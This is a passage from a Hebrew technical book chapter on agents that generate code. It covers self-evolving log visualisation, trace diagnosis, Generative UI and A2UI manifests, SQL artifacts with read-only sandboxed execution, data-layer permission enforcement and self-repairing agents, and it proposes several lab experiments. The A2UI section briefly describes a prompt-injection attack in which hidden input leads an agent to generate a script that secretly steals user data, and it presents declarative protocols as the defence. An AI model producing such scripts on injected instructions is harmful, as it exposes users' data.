עיבוד נתונים הוא בין המשימות הנפוצות ביותר — והמייגעות ביותר — במערכות תוכנה. השורש הוא שפורמטי נתונים מגוונים ואינם עומדים במקום לעולם. מערכת יחידה עשויה לשנות את פורמטיה פעמים רבות ככל שהיא מתפתחת — שדות חדשים, קינון שנבנה מחדש, טיפוסים חדשים. כתיבה ידנית של מנתח לכל פורמט נושאת עלות תחזוקה מכאיבה: כל שינוי פירושו עדכון לוגיקת הניתוח, בדיקת תאימות, ושחרור גרסה חדשה.

יצירת קוד מציעה גישה שונה לחלוטין: כאשר הסוכן פוגש פורמט חדש, הוא מייצר קוד ניתוח בזמן אמת מנתוני דגימה, כך שהמערכת עוקבת אחר התפתחות הפורמטים אוטומטית, ללא התערבות אנושית.

**ניתוח וויזואליזציה של יומני סוכן.**

יכולת התצפית של מערכות סוכן תלויה בוויזואליזציה של זרימות הביצוע. משימת סוכן מורכבת עשויה לכלול מאות שלבים, ובכללם קריאות LLM מרובות, עשרות הרצות כלים, ואינטראקציות בין תת‑סוכנים מרובים. ויזואליזציה של נתונים אלה ניצבת בפני אתגרים מרובים: כלים שונים מחזירים נתונים במבנים שונים, והפורמטים מתפתחים עם איטרציות המערכת; מסלול מלא עשוי להכיל מאות אלפי תווים, ודורש איזון בין מבט על לפרטים.

יצירת קוד מציעה פתרון אלגנטי: ביסוס לולאת משוב לתיקון עצמי. כאשר הצד הקדמי נתקל בפורמט יומן שאינו ניתן לניתוח, במקום להציג שגיאה, הוא מדווח אוטומטית את מידע הכישלון (דגימת יומן גולמית, שגיאה מפורטת) לסוכן. הסוכן מנתח את מבנה נתוני הדגימה ומייצר קוד צד קדמי שיכול לנתח אותו נכונה. הקוד נבדק תחילה אוטומטית בדפדפן וירטואלי כדי לאמת נכונות ניתוח, בעוד ש‑Vision LLM מעריך את הוויזואליזציה. אם הוא עובר את שתי הבדיקות, הוא נפרס לצד הקדמי כעדכון חם.

> **ניסוי 5‑7 ★★★: מערכת ניתוח יומנים מסתגלת**
>
> **מטרת הניסוי**: לבנות מערכת ויזואליזציה של יומני סוכן המתפתחת בעצמה.
>
> **גישה טכנית**: המערכת ההתחלתית תומכת בפורמטים בסיסיים בלבד. הצד הקדמי מזהה כשל ניתוח ← מדווח לסוכן ← מייצר קוד ניתוח ← בדיקה בדפדפן וירטואלי ← פריסת עדכון חם. התהליך כולו אוטומטי.
>
> **קריטריוני קבלה**: זיהוי אוטומטי של כשלים והפעלת למידה, יצירת קוד העובר בדיקות אוטומטיות, וניתוח נכון של פורמטים חדשים לאחר העדכון החם.
>

**ניתוח אוטומטי ואבחון בעיות של יומני ביצוע של סוכנים.**

סוכנים בייצור מייצרים נפח גדול של יומני מסלול (המתעדים את התהליך המלא של כל משימה). עם זאת, זיהוי בעיות, איתור שורשים ובניית מקרי בדיקה מיומנים אלה הם מאמץ בעל עלות גבוהה. כשלים עשויים לצוץ מאינטראקציות בין מודולים מרובים, מה שמקשה על בידוד השורש. הם עשויים גם להיות יקרים לשחזור משום שסביבות בדיקה לעיתים רחוקות לוכדות את מלוא מורכבות הייצור. לבסוף, באגים חוזרים לעיתים קרובות כאשר תיקונים אינם מכוסים בבדיקות רגרסיה שיטתיות.

יצירת קוד מספקת מסלול אוטומטי לאבחון. הסוכן יכול לקרוא יומני ייצור, לשלב אותם עם מסמכי ארכיטקטורה ועם PRD (מסמכי דרישות מוצר) כדי לקבוע אוטומטית האם זרימת הביצוע עומדת בציפיות, ולאתר את הרכיבים והמודולים הבעייתיים. על בסיס תוצאות הניתוח, הוא מייצר דוחות בעיות מובנים (עדיפות, מודול, תיאור, הצעות שיפור) ומקרי בדיקת רגרסיה — מקרי הבדיקה מפנים למזהה מסלול הבעיה ולסבבי האינטראקציה המרכזיים, ומסגרת הבדיקות משחזרת אותם אוטומטית כדי לאמת שהמערכת המתוקנת מייצרת התנהגות נכונה עבור אותו קלט. לבסוף, הסוכן מתחבר ל‑GitHub באמצעות MCP כדי ליצור Issue ולהקצות אותו למפתח הרלוונטי, ובכך משלים את האוטומציה המלאה מגילוי הבעיה ועד הקצאת המשימה.

> **ניסוי 5‑8 ★★★: מערכת אבחון חכמה ליומני ייצור**
>
> **מטרת הניסוי**: לגלות אוטומטית בעיות ממסלולי ייצור, לייצר מקרי בדיקה, וליצור פריטי עבודה.
>
> **גישה טכנית**: הסוכן מנתח מערך מסלולי ייצור לצד מסמכי ארכיטקטורת מערכת ו‑PRD כדי לזהות דפוסי בעיות ואת המודולים המעורבים. לאחר מכן הוא מייצר דוחות בעיות מובנים המכילים את העדיפות, את המודול, את התיאור ואת השיפורים המומלצים. הוא גם מייצר בדיקות רגרסיה הקשורות למזהי מסלול ולסבבי אינטראקציה; מסגרת הבדיקות משחזרת מקרים אלה ומאמתת את התוצאות. לבסוף, הסוכן יוצר issues ב‑GitHub באמצעות MCP.
>
>
> 
>
>

### קוד כ‑Generative UI

מערכות סוכן מסורתיות מקיימות אינטראקציה עם משתמשים בעיקר באמצעות דיאלוג בטקסט פשוט. אך טקסט הוא מדיום לינארי וחד‑ממדי, ובתרחישים רבים בלתי יעיל. איסוף מידע מובנה דורש הלוך ושוב ארכני; יחסי נתונים מורכבים קשים לביטוי בטקסט פשוט; וכאשר משתמשים חייבים לבחור מבין אפשרויות, רשימת טקסט אינטואיטיבית הרבה פחות מממשק חזותי.

יצירת קוד מציעה דרך לעקוף מגבלות אלה: סוכנים יכולים לייצר דינמית טפסים, תרשימים אינטראקטיביים ואף יישומי רשת שלמים, ובכך להפוך דיאלוג טקסט סטטי לאינטראקציה רב‑מודאלית ועשירה. דפוס זה, שבו הסוכן מייצר דינמית את הממשק, נקרא **Generative UI**.

**פרוטוקולים בסגנון A2UI: תקינת Generative UI.**

מתן אפשרות לסוכנים לייצר HTML ו‑JavaScript שהלקוח מרנדר ומריץ ישירות יוצר סיכון אבטחה יסודי: הקוד שנוצר עלול להיות זדוני. לדוגמה, אם מישהו מסתיר בכוונה הוראה בקלט, הסוכן עלול להיות מתומרן באמצעות הזרקת פרומפט, ולייצר מבלי דעת סקריפט הגונב בחשאי נתוני משתמש. כאן שרשרת הסיבתיות חשובה: **הזרקת פרומפט** — הוראות זדוניות המעורבבות לקלט הסוכן — היא הסיבה, בעוד שהרצת הסקריפט הזדוני המתקבל בדפדפן וגניבת הנתונים דומות ל‑XSS מסורתי ברשת (Cross‑Site Scripting); אין לתייג את ההתקפה בכללותה פשוט כ‑XSS. פרוטוקולי ממשק הצהרתיים כגון A2UI‏ (Agent‑to‑User Interface) מציעים גישה בטוחה יותר. במקום לייצר קוד בר‑הרצה ישירות, הסוכן מוציא רק "מניפסט תיאור ממשק" ב‑JSON, כגון "הצג טבלה בת שלוש שורות ושתי עמודות בכותרת 'נתוני מכירות'." הלקוח מרנדר אז את הממשק באמצעות רכיבים בטוחים ומוגדרים מראש משלו. הדבר דומה לתפריט מסעדה: הלקוח (הסוכן) יכול להזמין רק מנות שבתפריט (רכיבים מוגדרים מראש), ולא להיכנס למטבח ולהכין מנות שרירותיות (להריץ קוד שרירותי). נקודת בלבול נפוצה אחת היא AG‑UI‏ (Agent‑User Interaction, שהוצע על ידי CopilotKit). למרות השם הדומה, אין זו שפת תיאור ממשק אלא **פרוטוקול אירועים ותעבורה** המזרים את מצב הביצוע של הסוכן — הודעות, קריאות לכלים וטלאי מצב — לצד הקדמי; הוא יכול גם לשאת מטעני ממשק כגון מניפסטי A2UI. השניים משלימים ואין לקבץ אותם כדוגמאות לאותה קטגוריה של ממשק הצהרתי.

עקרון העיצוב המרכזי של פרוטוקולים כאלה הוא **אבטחה תחילה**: הלקוח מתחזק קטלוג רכיבים מהימן (למשל, Card,‏ Button,‏ TextField,‏ Table), ואם הקטלוג והמרנדר נאכפים נכונה, הסוכן רשאי לבקש רק רכיבים מהקטלוג ואינו יכול להזריק קוד שרירותי. הלקוח מרנדר באמצעות הרכיבים הילידיים שלו, ולא באמצעות הרצת HTML שרירותי שהסוכן ייצר. פרוטוקולים אלה תומכים בדרך כלל גם ב**רינדור חוצה‑פלטפורמות** (אותו תיאור מרונדר ב‑React, ב‑Flutter וביישומים ילידיים) וב**יצירה הדרגתית** (לדוגמה, באמצעות הזרמת JSONL שהלקוח מרנדר תוך כדי הגעתו).

כמובן, הגישה ההצהרתית מתאימה לתרחישי אינטראקציה מתוקננים (טפסים, טבלאות, כרטיסים), בעוד שעבור צרכים מותאמים מאוד (למשל, ויזואליזציות מותאמות אישית, ממשקי משחקים), יצירת קוד ישירה נותרת הבחירה הגמישה יותר. להלן יישומים ספציפיים של שני הדפוסים.

**מסירת תוצאות באמצעות HTML: החלפת דוחות Markdown.** ‏Generative UI אינו משמש רק במהלך האינטראקציה אלא גם משנה את צורת ה**תוצר** הסופי של הסוכן. באופן מסורתי, סוכן מסיים משימה ומוסר דוח Markdown; אך דפדוף בקובץ Markdown המסודר לינארית אינו דרך נעימה לקרוא. ככל שסוכנים משתפרים ביצירת קוד צד קדמי, הפרקטיקה נעה לעבר יצירת HTML ישירות. בהשוואה ל‑Markdown, לתוצרי HTML יש כמה יתרונות נבדלים. ראשית, **הדגמות אינטראקטיביות** מאפשרות למשתמשים לראות כיצד המערכת עובדת בצורה אינטראקטיבית, ולעיתים קרובות מקלות על הבנה במבט אחד יותר מתיאורים טקסטואליים ארכניים. שנית, **ויזואליזציית נתונים טובה יותר** מאפשרת למשתמשים לחקור נתונים באמצעות תרשימים ובקרות אינטראקטיביות לעיון, לסינון ולצלילה לפרטים. שלישית, **תוצרים הניתנים לשיפור מתמשך** מאפשרים לסוכן לעדכן ולהרחיב אתר HTML לאורך המשימה במקום לייצר תוצר סטטי רק בסוף.

קחו את ניסיונו האישי של המחבר בכתיבת מאמרי מחקר כדוגמה: עבור כל פרויקט מחקר, המחבר מתחזק אתר אינטראקטיבי[^ch5-4]. הוא משמש הן כתוצר הסופי והן כמסמך חי לאורך תהליך המחקר — המחבר מבקש מהסוכן לעדכן אותו ברציפות ככל שהניסויים מתקדמים. אתר זה משרת לפחות שלוש מטרות. ראשית, **יכולת מעקב אחר נתוני הניסויים**: הנתונים הספציפיים של כל ניסוי, הפרומפטים ששימשו, והתגובות הגולמיות של ה‑LLM — כולם ניתנים לבדיקה פריט אחר פריט באתר; פרישת הכול בגלוי מקלה על איתור בעיות בבניית הנתונים, בפורמט ובהתפלגות, ועל הבחנה בהטיות שיטתיות בתגובות ה‑LLM או בניקוד השופט. שנית, **ניטור מדדי אימון**: האתר מציג עקומות אימון ישירות, ומקל על ניטור **מדדי הבריאות הפנימיים** של המודל ועל קביעה האם תהליך האימון נותר בריא. המונח שאול מהרפואה: אלה אותות פנימיים של האם תהליך האימון עצמו בריא — הפסד אימון ואימות, נורמת גרדיאנט, קצב למידה, המבוכה (perplexity) של המודל בהנפקת טוקנים (מדד ל"ביטחונו" בפלט שלו עצמו), ובלמידת חיזוק, תגמול, סטיית KL ואנטרופיית מדיניות. הם נבדלים ממדדי תוצאה סופיים כגון דיוק המשימה: בדיוק כפי שקריאות פיזיולוגיות בבדיקה תקופתית נבדלות מהביצועים החיצוניים של אדם, מדדי בריאות פנימיים מעלים לעיתים קרובות בעיות — הפסד שאינו מתכנס, גרדיאנטים מתפוצצים, קריסת אימון — מוקדם הרבה יותר. שלישית, **הדגמת פעולת המערכת**: ויזואליזציות חושפות כיצד המערכת כולה עובדת, ומאפשרות לקוראים לתפוס את מבנה המערכת שנבנתה על ידי AI במבט אחד.

[^ch5-4]: אתר פרויקטי המחקר של המחבר נמצא ב‑https://01.me/research/, שם לכל פרויקט יש אתר אינטראקטיבי המתעדכן ברציפות.

**הבהרת כוונת המשתמש.**

כאשר הדרישות עמומות או חלקיות, הסוכן חייב לשאול שאלות הבהרה כדי לאסוף את המידע החסר. מוצרים כגון OpenAI Deep Research עושים זאת בדרך כלל באמצעות שאלות ותשובות בטקסט, אך לגישה זו מגבלות ברורות: היא בלתי יעילה משום שכל שאלה צורכת תור דיאלוג, ולכן עשר נקודות הבהרה עשויות לדרוש עשרה סבבים; והיא גרועה בביטוי תלויות בין שאלות — לדוגמה, יעד נסיעה מגביל את אמצעי התחבורה הזמינים — מה שטקסט פשוט מתקשה להציג בבירור.

באמצעות יצירת קוד, הסוכן יכול ליצור ממשקים אינטראקטיביים מובנים שיחליפו שאלות ותשובות בטקסט. איור 5‑8 ממחיש את תהליך יצירת הטפסים הדינמית, ומראה כיצד הסוכן הופך שאלות הבהרה לממשק מובנה שניתן למלא בבת אחת. הסוכן מייצר טופס HTML המכיל בקרות קלט מגוונות — תיבות טקסט למידע פתוח, תפריטים נפתחים לאפשרויות מוגדרות מראש, תיבות סימון לבחירות מרובות, ובוררי תאריכים לפישוט קלט זמן. גרסאות מתקדמות יותר יכולות להשתמש ב‑JavaScript כדי ליצור טפסים מדורגים המציגים או מסתירים שאלות המשך ומעדכנים אפשרויות זמינות בתגובה לבחירות המשתמש. המשתמש ממלא את הטופס כולו בבת אחת, ובכך מתייתרים סבבי דיאלוג מרובים, והוא יכול לראות בבירור את כל המידע הנדרש ואת היחסים הלוגיים בין השאלות.




> **ניסוי 5‑9 ★★: מערכת הבהרת כוונה עם טפסים דינמיים**
>
> **מטרת הניסוי**: לאמת את יכולתו של הסוכן להבהיר את כוונת המשתמש באמצעות יצירה דינמית של טופסי HTML.
>
> **גישה טכנית**: הסוכן מנתח את בקשת המשתמש, מזהה נקודות הבהרה, ומייצר קוד טופס עם לוגיקה מדורגת. הצד הקדמי מרנדר אותו, המשתמש מגיש אותו פעם אחת, והסוכן מנתח את נתוני ה‑JSON כדי להמשיך במשימה.
>
> **קריטריוני קבלה**: המשתמש מזין "אני רוצה להזמין טיסה לבייג'ינג." הסוכן מייצר טופס עם השדות הבאים: עיר יציאה (קלט טקסט), תאריך יציאה (בורר תאריכים), סוג נסיעה (לחצני רדיו לכיוון אחד או הלוך ושוב), ותאריך חזרה (מוצג רק כשנבחר הלוך ושוב). המשתמש מגיש את כל המידע בבת אחת.
>

**יצירת שאילתות SQL.**

תשאול מסדי נתונים הוא תרחיש שבו יצירת קוד יכולה לשפר משמעותית את חוויית האינטראקציה. גישה מסורתית למסדי נתונים נשענת על כלי GUI או על SQL הנכתב ידנית; הראשון מסורבל להפעלה, והאחרון דורש מהמשתמש ידע מתמחה. סוכן יכול לתרגם שפה טבעית ל‑SQL, אך קיימת בחירת עיצוב מרכזית: האם הסוכן צריך להריץ את השאילתה ולתאר את התוצאות בשפה טבעית, או שעליו לייצר את ה‑SQL כתוצר שהמערכת תריץ והצד הקדמי יציג?

הגישה הראשונה נראית "אינטליגנטית" יותר אך היא בלתי יעילה בעליל — שאילתה מול טבלה גדולה עשויה להחזיר אלפי שורות. לתת ל‑LLM לקרוא את כל זה ולתאר בפרוזה שורף טוקנים וזמן, וגרוע מכך, מודלי LLM ידועים לשמצה כנוטים לשגיאות ב"העתקת" נתונים. גישה טובה יותר היא **דפוס ה‑Artifact**. איור 5‑9 מציג את זרימת העבודה של סוכן שאילתות SQL: במקום לקרוא את הנתונים בעצמו, הסוכן מייצר שאילתת SQL ומעביר אותה למערכת כ**תוצר בר‑הרצה** עצמאי. המערכת מריצה את השאילתה מול מסד הנתונים ומרנדרת את התוצאות בטבלה עבור המשתמש. הנתונים זורמים אפוא ישירות ממסד הנתונים לממשק מבלי לעבור דרך ה‑LLM; ה‑LLM כותב את השאילתה אך לעולם אינו נאלץ לקרוא ולנסח מחדש אלפי שורות. גישה זו מהירה ומדויקת יותר כאחד.

אין להריץ ישירות SQL וקוד ויזואליזציה שנוצרו. שכבת הביצוע צריכה להשתמש באישורי מסד נתונים לקריאה בלבד, לנתח את ה‑SQL, לאפשר רק פקודות `SELECT` מאושרות, ולדחות DDL,‏ DML ושאילתות רב‑פקודתיות. ערכים שסופקו על ידי המשתמש צריכים להיקשר כפרמטרים בצד השרת, עם מגבלות על זמן השאילתה, על השורות המוחזרות, על הטבלאות הנגישות ועל טווחי התאריכים. קוד ויזואליזציה צריך לרוץ בארגז חול המבודד מהרשת וממערכת הקבצים ולייצר רק פורמט תוצאה מאושר. דפוס ה‑Artifact מקצר את מסלול הנתונים; הוא אינו מחליף בדיקות הרשאה או בידוד ביצוע.




בהמשך לכך, הסוכן יכול לייצר שני תוצרים המהווים צינור: שאילתת SQL וקוד ויזואליזציה, כגון קוד לתרשים עמודות. הצד הקדמי מעביר את תוצאות ה‑SQL ישירות לקוד הוויזואליזציה. ה‑LLM מייצר את הקוד אך אינו משתתף במסלול הנתונים — זו מהותה של יצירת קוד כממשק.

> **ניסוי 5‑10 ★★: סוכן ERP באינטראקציה בשפה טבעית**
>
> תוכנת ERP (תכנון משאבי ארגון) היא מערכת קריטית לעסקים, המשתמשת בדרך כלל בממשק GUI שבו פעולות מורכבות דורשות לחיצות עכבר מרובות. סוכן AI יכול לתרגם בקשות משתמשים בשפה טבעית לשאילתות SQL, ובכך לאפשר גישה אוטומטית למסד הנתונים.
>
> דרישות: הקימו מסד נתונים PostgreSQL המכיל שתי טבלאות: (1) טבלת עובדים, ובה מזהה עובד, שם, מחלקה, דרג, תאריך קליטה, תאריך עזיבה (NULL פירושו מועסק כרגע); (2) טבלת שכר, ובה מזהה עובד, תאריך תשלום, שכר (רשומה אחת לחודש). הסוכן עונה אוטומטית:
>
> 1. מהו הוותק הממוצע של העובדים?
> 2. כמה עובדים פעילים יש בכל מחלקה?
> 3. לאיזו מחלקה הדרג הממוצע הגבוה ביותר של עובדים?
> 4. כמה עובדים חדשים הצטרפו לכל מחלקה השנה ובשנה שעברה?
> 5. מה היה השכר הממוצע במחלקה A ממרץ של השנה שלפני שעברה עד מאי של השנה שעברה?
> 6. לאיזו מחלקה היה שכר ממוצע גבוה יותר בשנה שעברה, A או B?
> 7. מהו השכר הממוצע לעובדים בכל דרג השנה?
> 8. מהו השכר הממוצע בחודש האחרון לעובדים בעלי ותק של פחות משנה, שנה עד שנתיים, ושנתיים עד שלוש שנים?
> 9. לאילו 10 עובדים הייתה עליית השכר הגדולה ביותר משנה שעברה לשנה זו?
> 10. האם יש מקרים של שכר שלא שולם (עובדים שהיו מועסקים בחודש נתון אך אין להם רשומת שכר לאותו חודש)?
>

**יצירה דינמית של תוכנה.**

היישום האולטימטיבי של יצירת קוד הוא מתן אפשרות לסוכן ליצור תוכנה באופן דינמי לחלוטין, מאפס. ה‑"Imagine with Claude" של Anthropic מסמן את החזית: המשתמש מגיש בקשה, Claude מייצר את ממשק הצד הקדמי ואת לוגיקת האינטראקציה בזמן אמת, המשתמש מקיים אינטראקציה עם התוכנה שנוצרה, ו‑Claude משנה את הקוד כדי לייצר ממשק חדש המציג את התוצאות. המשתמש צופה ביישום נוצר מאין ומוסיף להתפתח.

עם זאת, יצירה דינמית מלאה יקרה ואיטית — מתאימה יותר להדגמות של מה שאפשרי מאשר לשימוש בייצור. גישה פרגמטית יותר היא **להתאים אישית מסגרת קיימת**. מודל "חצי‑מותאם" זה משמר את יציבותה של תוכנת הבסיס תוך חשיפת היבטים נבחרים לשליטת המשתמש. המשתמש יכול לומר "הפוך את הכפתור לכחול", "הוסף תפריט קיצורים לסרגל הצד", או "עבור לגופן קריא יותר"; הסוכן מעדכן את קוד הצד הקדמי, ו‑HMR‏ (Hot Module Replacement — המעדכן מודולים מושפעים ללא טעינה מחדש של הדף כולו ובדרך כלל משמר את מצב היישום) מיישם את השינויים מיד. מוצר של מידה אחת לכולם הופך לחוויה המותאמת לכל משתמש.

> **ניסוי 5‑11 ★★: מערכת התאמה אישית שיחתית של ממשק**
>
> **מטרת הניסוי**: לאפשר למשתמשים להתאים אישית את ממשק התוכנה באופן מיידי באמצעות דיאלוג בשפה טבעית, ולהעריך האם יצירת קוד עם טעינה חמה יכולה לספק ביעילות חוויות משתמש מותאמות אישית.
>
> **גישה טכנית**: בנו יישום צ'אטבוט בסיסי (צד קדמי ב‑React וצד אחורי ב‑FastAPI), והריצו את שני הרכיבים במצב פיתוח עם טעינה חמה מופעלת (React HMR ו‑FastAPI reload). משתמשים מציעים דרישות התאמה אישית של הממשק (צבעים, גופנים, פריסה, מיקומי רכיבים וכו') במהלך השיחה. הסוכן משנה את הקוד באופן אוטונומי. מנגנון הטעינה החמה מזהה אוטומטית שינויי קבצים, הצד הקדמי מהדר מחדש ומתרענן, והמשתמש רואה את שינויי הממשק בזמן אמת. המערכת תומכת בסבבי התאמה אישית איטרטיביים מרובים.
>

תוכנה דינמית משנה את הנחת האבטחה המסורתית יחד עם גמישותה. בעבר, קוד עסקי של יישום פותח, נסקר, נבדק ונפרס, ואז נותר יציב יחסית למשך תקופה. בדיקות הרשאה שכנו לפיכך בדרך כלל בשכבת היישום: הקוד העסקי החליט תחילה האם המשתמש הנוכחי יכול לקרוא או לשנות רשומה, ורק אז שלח את הפעולה למסד הנתונים. כאשר ממשקים, זרימות עבודה ואף קוד גישה לנתונים ניתנים ליצירה או לשכתוב על ידי סוכן בכל עת, אותה שכבה אינה יציבה עוד. קוד שנוצר זה עתה עלול להשמיט בדיקת הרשאה עדינה, לחשוף שדה שהיה מוסתר קודם, או לעקוף בדיקה קיימת דרך מסלול קריאה אחר. בין אם הסיבה היא שגיאת יצירה רגילה ובין אם קוד מסוכן שנוצר לאחר הזרקת פרומפט, התוצאה זהה: גבול ההרשאות שהקוד העסקי היה אמור לשמור עליו עלול להישבר בשקט.

מטרת האבטחה לתוכנה דינמית אינה יכולה אפוא להיות "לוודא שה‑AI כותב כל בדיקת הרשאה נכונה". עליה להיות ש**אילוצי ההרשאות נותרים בלתי ניתנים לעקיפה גם כאשר ה‑AI כותב קוד שגוי**. אם בדיקות הרשאה שוכנות בתוך הלוגיקה העסקית הנוצרת דינמית, הן חולקות את אותו תחום אמון עם הקוד שהן אמורות לרסן. פרומפטים, בדיקות וסקירת קוד מצמצמים את שיעור השגיאות, אך הם אינם יכולים לכסות בשלמות כל מסלול ביצוע שדורות עתידיים יכניסו ואינם יכולים לשמש כגבול האבטחה הסופי.

ארכיטקטורה עמידה יותר **מזיזה את גבול האמון מטה לשכבת הנתונים**. קוד יישום הנוצר דינמית יכול לטפל בהצגה, בזרימות עבודה ובתזמור עסקי, בעוד שמנגנון יציב שנסקר על ידי אדם אוכף את הכללים המכריעים מי רשאי לעשות מה לאילו נתונים. אבטחה ברמת השורה במסד הנתונים יכולה להגביל משתמשים לרשומות בדייר שלהם עצמם; אילוצים ומאמתים יכולים לדחות מצבים בלתי חוקיים; תצוגות מבוקרות, פרוצדורות מאוחסנות או שירותי גישה לנתונים יכולים לחשוף רק פעולות מאושרות. כל קריאה וכתיבה צריכות לשאת גם **הקשר גישה** הכבול בזמן ריצה מהימן, המכיל את המשתמש, הדייר, התפקיד או זהות הסוכן. קוד שנוצר מקבל רק זהות מוגבלת זו: הוא אינו יכול לזייף את הזהות או להשיג אישור מסד נתונים מיוחס העוקף את הכללים. גם אם הוא משמיט את בדיקת ההרשאה שלו עצמו, שכבת הנתונים עדיין דוחה את הפעולה הבלתי מורשית.

הזזת ההרשאות מטה אינה אומרת הצבת כל הלוגיקה העסקית במסד הנתונים. שכבת היישום עדיין רשאית לבצע בדיקות מוקדמות כדי לספק משוב מהיר, אך שכבת הנתונים חייבת לשמר את סמכות ההכרעה הסופית. אותו כלל יכול לשפר את החוויה למעלה ולספק ערובה למטה. ערובה זו דורשת גם שכל מסלול גישה לנתונים יעבור דרך שכבת הנתונים המהימנה; אסור שקוד שנוצר יוכל להתחבר ישירות סביבה. התוצאה היא יישום ששכבתו העליונה יכולה להמשיך להשתנות בעוד שאילוצי ההרשאות שאינם ניתנים למשא ומתן נותרים בשכבה שאינה נכתבת מחדש בכל יצירה. זו שכבת הנתונים של השלד התלת‑שכבתי מפרק 1 — זו שהכי קשה לעקוף.

> **ניסוי 5‑12 ★★★: אובייקטי נתונים משובצי‑הרשאות לתוכנה דינמית**
>
> **מטרת הניסוי**: לבנות מאגר אובייקטים המאפשר לקוד יישום להיווצר או להישכתב דינמית תוך אכיפת הרשאות ושלמות נתונים בשכבת הנתונים. לאמת שקוד שנוצר אינו יכול לחצות את גבול הנתונים היציב באמצעות דילוג על מעבר במכונת המצבים, כתיבת ערך מחוץ לטווח, או קריאה בין דיירים.
>
> **גישה טכנית**: לספק שכבת middleware של מאגר אובייקטים ב‑Python מעל PostgreSQL. טיפוסי נתונים מצהירים על כללי ההרשאה שלהם, על הקשר הגישה, על מאמתים, על יחסי אובייקטים ועל תגובות; כל קריאה או כתיבה של אובייקט עוברת בזו אחר זו דרך צינור ההרשאות והאימות, ההתמדה, בדיקות השלמות ההתייחסותית וכדומה.
>
> **קריטריוני קבלה**: עדכון תקף של צינור הגיוס מצליח; דילוג על מעבר מצב של מועמד, כתיבת שכר מחוץ לטווח התפקיד, וקריאה בין דיירים — כולם נדחים על ידי שכבת הנתונים.

### קוד היוצר קוד: הנעה עצמית של סוכנים

הסעיפים הקודמים עקבו אחר יצירת הקוד על פני תחום אחר תחום — מהיסק מתמטי דרך יצירת מסמכים ועד התאמה אישית של ממשקים. דחפו יכולות אלה לקצה ומתעוררת שאלה טבעית: האם סוכן יכול להשתמש ביצירת קוד כדי ליצור סוכן אחר?

ראשית, יש להבהיר את חלוקת העבודה של סעיף זה עם פרק 9. סעיף זה דן בכיצד סוכן קוד משתמש בקוד כדי **לתקן וליצור סוכנים מסוגו** — תיקון עצמי, שכפול עצמי, ויצירה לפי דרישה של סוכנים חדשים. המוקד שלו הוא יצירת קוד ויכולת בניית מערכות, ולכן תהליך זה נקרא **הנעה עצמית (bootstrapping)**. פרק 9 אינו מסביר שוב כיצד לכתוב קוד זה; במקום זאת, הוא מתמקד בכיצד ניסיון ייצור שהוערך מפעיל שינוי עצמי: בחירת ידע, הוראות, תוכניות או פרמטרים כיעד העדכון; יצירת גרסה מועמדת מגרסה יציבה; ובקרת סיכון באמצעות בדיקות רגרסיה, שחרורי קנרי ורולבק. שני הפרקים מצטלבים ב"שינוי קוד", אך עונים על שאלות שונות.





**תיקון עצמי של סוכן: OpenClaw Doctor.**

תנאי מקדים מכריע להנעה עצמית של סוכנים הוא היכולת לתיקון עצמי. הפקודה `doctor` ב‑OpenClaw מגלמת יכולת זו — היא יכולה לזהות אוטומטית שלושה סוגי בעיות:

- **חריגות תצורה**: אסימוני OAuth שפג תוקפם, פורמטי תצורה מיושנים, התנגשויות פורטים
- **בעיות מצב**: קובצי נעילת סשן מיושנים, תלויות תוספים חסרות
- **בעיות בריאות שירות**: Gateway שאינו רץ, תמונות ארגז חול חסרות

ואז היא פותרת אותן אוטומטית באמצעות אסטרטגיית תיקון שכבתית: תיקונים בטוחים (נרמול תצורה, ניקוי קובצי נעילה) מבוצעים אוטומטית; פעולות מסוכנות (הפעלות מחדש של שירותים, דריסת תצורה בכפייה) דורשות אישור משתמש.

בל נגזים: בעיות בתדירות גבוהה כגון אסימונים שפג תוקפם, קובצי נעילה מיושנים והתנגשויות פורטים בעלות כללי זיהוי ברורים ופעולות תיקון קבועות, ו‑`doctor` **מטפל בהן תחילה באמצעות בדיקות דטרמיניסטיות**, בדומה מאוד לסקריפט תפעולי מסורתי. יכולת הסוכן הופכת למשמעותית בשכבה השנייה: עבור בעיות קשות יותר מעבר לכללים אלה, `doctor` משתמש ב‑LLM כדי לנתח יומני שגיאות, לפרש קובצי תצורה, להסיק שורשים, ולהפיק תוכנית תיקון ממוקדת. בדיקות דטרמיניסטיות פותרות בעיות נפוצות באמינות, בעוד שה‑LLM מכסה את הזנב הארוך; יחד, שתי השכבות מאפשרות ל‑`doctor --fix` לפתור אוטומטית חלק ניכר מבעיות ה‑gateway הנפוצות. מה שהופך זאת לדפוס "סוכן המתקן סוכן" הוא שהסוכן עובד לא על מערכת חיצונית אלא על סביבת זמן הריצה שלו עצמו, ובכך מעלה את התיקון העצמי מתפקוד של מתאם מערכת לתשתית הנעה עצמית מרכזית.

**טכניקות מפתח לגרימת סוכן לכתוב סוכן.**

יצירת סוכן איכותי קשה הרבה יותר מייצור קוד יישום רגיל, משום שהיא דורשת הבנה עמוקה של דפוסי ארכיטקטורת סוכנים, שיטות עבודה מומלצות ומלכודות נפוצות. ללא מומחיות תחומית זו, אפילו מודלי יצירת הקוד החזקים ביותר מייצרים סוכנים עם פגמים ארכיטקטוניים חמורים. פגמים נפוצים כוללים:

1. **ניהול הקשר אד‑הוק**: אי‑שימוש בפורמט ההקשר הסטנדרטי שנדון בפרק 2, דחיסת מסלולים כטקסט פשוט לתוך ההקשר, התעלמות מאופטימיזציות KV Cache מהודעות מובנות, והכנסת באגים בתנאי גבול בלולאות קריאה לכלים
2. **עיצוב כלים בלתי תקני**: תיאורים עמומים, הוראות גבולות שימוש ורשימות שליליות חסרות, ופרמטרים חסרי דוגמאות קונקרטיות
3. **בחירות טכנולוגיה מיושנות**: נטייה להשתמש במודלים ובממשקי API הנפוצים ביותר אך המיושנים מנתוני האימון. פתרון: תחזקו בסיס ידע SOTA או ציידו את הסוכן ביכולות חיפוש
4. **ניתוק מהאקוסיסטם החיצוני**: שימוש בממשקי API שהוצאו משימוש, בספריות שאינן מתוחזקות, או בדפוסים פגומים

המסלול האפקטיבי ביותר לפתרון בעיות אלה אינו למנות בשלמות את כל הכללים בפרומפט, אלא **לספק מימושי סוכן איכותיים כדוגמאות ייחוס**, ולהנחות את סוכן יצירת הקוד לשנות אותם ולא להתחיל מאפס.

יתרונה של יצירה מבוססת דוגמאות ברור: קוד הדוגמה עצמו נושא את שיטות העבודה המומלצות. סוכן המתאים מימוש מאומת מדייק לעיתים קרובות יותר מכזה המתחיל מאפס, משום שהמימוש משמר בחירות ארכיטקטוניות נכונות מבלי לדרוש שכל כלל יפורט בפרומפט.

